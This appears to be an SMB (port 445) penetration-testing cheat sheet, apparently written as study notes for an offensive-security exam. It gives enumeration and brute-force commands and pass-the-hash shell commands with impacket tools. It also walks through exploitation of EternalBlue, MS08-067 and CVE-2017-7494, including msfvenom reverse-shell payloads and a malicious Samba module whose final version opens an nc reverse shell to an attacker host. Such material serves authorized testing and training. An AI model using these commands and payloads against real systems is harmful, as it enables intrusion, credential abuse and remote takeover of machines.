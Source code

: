 # SMB - 445

```bash
nbtscan -r 10.10.10.10/24 - Performs a complete network scan using the protocolo Netbios

smbclient -L \\10.10.10.10 - List all shares on the server
smbclient -L \\10.10.10.10 -U Administrator - login with username

#Mounting a share
smbclient //10.10.10.10/_DOCS

#When it comes to old versions of the SMB protocol we should use it this way

smbclient -L \\10.10.10.10 -N --option'client min protocol=NT1'

protocol=NT1 - Sets the minimum version, in this case the NT1 version
```

#### Version if nmap didn’t detect it <a href="#version-if-nmap-didnt-detect-it" id="version-if-nmap-didnt-detect-it"></a>

```
Sometimes nmap doesn’t show the version of Samba in the remote host, if this happens, a good way to know which version the remote host is running, is to capture traffic with wireshark against the remote host on 445/139 and in parallel run an smbclient -L, do a follow tcp stream and with this we might see which version the server is running.

OR

sudo ngrep -i -d <INTERFACE> 's.?a.?m.?b.?a.*[[:digit:]]' port 139
smbclient -L <IP>
```

#### Scan for vulnerability <a href="#scan-for-vulnerability" id="scan-for-vulnerability"></a>

```
nmap -p139,445 --script "smb-vuln-* and not(smb-vuln-regsvc-dos)" --script-args smb-vuln-cve-2017-7494.check-version,unsafe=1 <IP>
```

If :

* MS17-010 - [EternalBlue](https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html#EternalBlue%20\(MS17-010\))
* MS08-067 - [MS08-067](https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html#MS08-067)
* CVE-2017-7494 - [CVE-2017-7494](https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html#CVE-2017-7494)

#### Manual testing <a href="#manual-testing" id="manual-testing"></a>

```
smbmap -H <IP>
smbmap -u '' -p '' -H <IP>
smbmap -u 'guest' -p '' -H <IP>
smbmap -u '' -p '' -H <IP> -R

crackmapexec smb <IP>
crackmapexec smb <IP> -u '' -p ''
crackmapexec smb <IP> -u 'guest' -p ''
crackmapexec smb <IP> -u '' -p '' --shares

enum4linux -a <IP>

smbclient --no-pass -L //$IP
smbclient //<IP>/<SHARE>

# Download all files from a directory recursively
smbclient //<IP>/<SHARE> -U <USER> -c "prompt OFF;recurse ON;mget *"
```

#### Brute force <a href="#brute-force-4" id="brute-force-4"></a>

```
crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV
```

#### Mount a SMB share <a href="#mount-a-smb-share" id="mount-a-smb-share"></a>

```
mkdir /tmp/share
sudo mount -t cifs //<IP>/<SHARE> /tmp/share
sudo mount -t cifs -o 'username=<USER>,password=<PASSWORD>'//<IP>/<SHARE> /tmp/share

smbclient //<IP>/<SHARE>
smbclient //<IP>/<SHARE> -U <USER>
```

#### Get a shell <a href="#get-a-shell" id="get-a-shell"></a>

```
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
```

EternalBlue (MS17-010)

```
https://github.com/3ndG4me/AutoBlue-MS17-010
```

**Check if vulnerable**

```
python eternal_checker.py <IP>
```

**Prepare shellcodes and listeners**

```
cd shellcode
./shell_prep.sh
cd ..
./listener_prep.sh
```

**Exploit**

```
python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin

May need to run it multiple times
```

**If this doesn’t work, try this one**

```
python zzz_exploit.py <IP>
```

#### MS08-067 <a href="#ms08-067" id="ms08-067"></a>

```
# Download exploit code
git clone https://github.com/andyacer/ms08_067.git

# Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
msfvenom -p windows/shell_bind_tcp RHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

# Modify
Modify ms08_067_2018.py and replace the shellcode variable by the one generated with msfvenom.

# Listener
nc -lvp <PORT>

# Exploit
python ms08_067_2018.py <IP> <NUMBER> 445
```

#### CVE-2017-7494 <a href="#cve-2017-7494" id="cve-2017-7494"></a>

```
# Download exploit code
git clone https://github.com/joxeankoret/CVE-2017-7494
```

Create a new file named poc.c :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("ping -c 3 <IP>");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

```
# Start an ICMP listener
sudo tcpdump -i <INTERFACE> icmp

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```

If you reiceve 3 pings on your listener then the exploit works. Now let’s get a shell :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

```
# Start a listener
nc -lvp <PORT>

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```

\
\
